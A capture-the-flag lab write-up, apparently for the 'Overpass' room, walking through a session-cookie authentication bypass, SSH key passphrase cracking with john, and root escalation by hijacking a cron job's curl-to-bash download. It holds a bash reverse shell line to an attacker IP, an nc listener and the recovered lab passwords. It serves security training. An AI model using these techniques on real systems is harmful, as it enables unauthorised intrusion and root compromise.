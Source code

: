 # Overpass

**Target IP:** `10.10.17.200` <br>
From `nmap` results we have to open ports:<br>
`22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`<br>
`80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)`<br>
Let's look at the http server.
![http server](https://i.ibb.co/1vqCb4N/2.png)
![The dwnloads page](https://i.ibb.co/L5QhMYp/3.png)
I downloaded the executable for linux and the scripts that apparently are going to help us.
I tried to execute the file.
![Executing the file](https://i.ibb.co/wMD2b9z/4.png)
Let's get into the source code and understand what is going on there. Open script `overpass.go`
We have function **saveCredsToFile** there. And we can see the it takes few arguments there one of which is **filepath**.
In the line 181 we can see that the script uses the function. `saveCredsToFile(credsPath, passlist)` and it uses **credsPath** as filepath.
In the line 140 we can find the credsPath variable. `credsPath, err := homedir.Expand("~/.overpass")`.<br>
So now we know that the encrypted passwords are saved in our home directory.
Here is what we get when we are trying to read the **.overpass** file. 
![.overpass](https://i.ibb.co/0Qd2332/5.png)
It looks like **rot47** encryption. Let's go to **cyberchef** and try to decrypt it.<br>
![Cyberchef](https://i.ibb.co/b2XG0xb/6.png)
So now we know how the script works and where it keeps the passwords.

Also we got interesting comment in the line 91. The comment tells us a name. **steve**. It can be one of the developers and we can try to bruteforce into his ssh. But even if they use this unsecure password manager, probably, we cannot just gues the password. So, let's think about some other way.

Also, **gobuster** found admin page there. But we need credentials to log in there.
Let's look how the authentication form works.
I found this function there:
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
It looks like it makes a request to some api and depends on response it allows or disallows into the admin.
If we take the hint for the first task we can see that this is going to be owasp10 vulnerability and there is no bruteforcing. We can suppose that the vulnerability here is broken authentication and we might be able to bypass the authentication check by just setting the SessionToken cookie to anything.
We can run this code in the browser console to exploit the vulnerability.<br>
`Cookies.set("SessionToken", "")`
Refresh the page and now we are here:
![admin page](https://i.ibb.co/LkNrg6j/7.png)
It looks like there is a private key for james. So let's copy it and try to ssh with it.
The private key works but it wants a passphrase for it. We can crack it with ssh2john and john.<br>
`ssh2john p_id > hash.txt`<br>
`john hash.txt`<br>
The password is **james13**. <br>
Let's ssh into james account.
And now we got the first flag.
![todo.txt](https://i.ibb.co/HtQmk7Q/8.png)
We got these notes there that can give us some more information.<br>
We already know about the **.overpass** file so let's read it.<br>
Here is what we got from there.
![cyberchef](https://i.ibb.co/SmRxDVg/9.png)
`[{"name":"System","pass":"saydrawnlyingpicture"}]`

we can also read **/etc/crontab**
```crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
We can see that it always trying to download **buildscript.sh** from **overpass.thm/downloads/src/**. <br>
God is being glorius today and we can change the **/etc/hosts/** file. So we need to and there the following line:
`<our ip> overpass.thm`. It is going to create a link to our ip instead of the ip that it is supposed to.
In our machine we have to create the environment for this.
`mkdir -m downloads/src/`
Then in the src folder we have to create our file **buildscript.sh** and put there our reverse shell.
`echo "bash -i >& /dev/tcp/10.2.38.40/4444 0>&1" > downloads/src/buildscript.sh`
Now we have to run **nc** to listen to the port that we specified in the reverse shell.
`nc -lvnp 4444`
And finally in the other terminal session we need to start simple python server
`python3 -m http.server 80` **Remember, we need to run it in the parent folder of folder downloads that we created before.**
After few seconds we got the reverse shell to the root user in our nc terminal session.<br>
And now we got the root flag.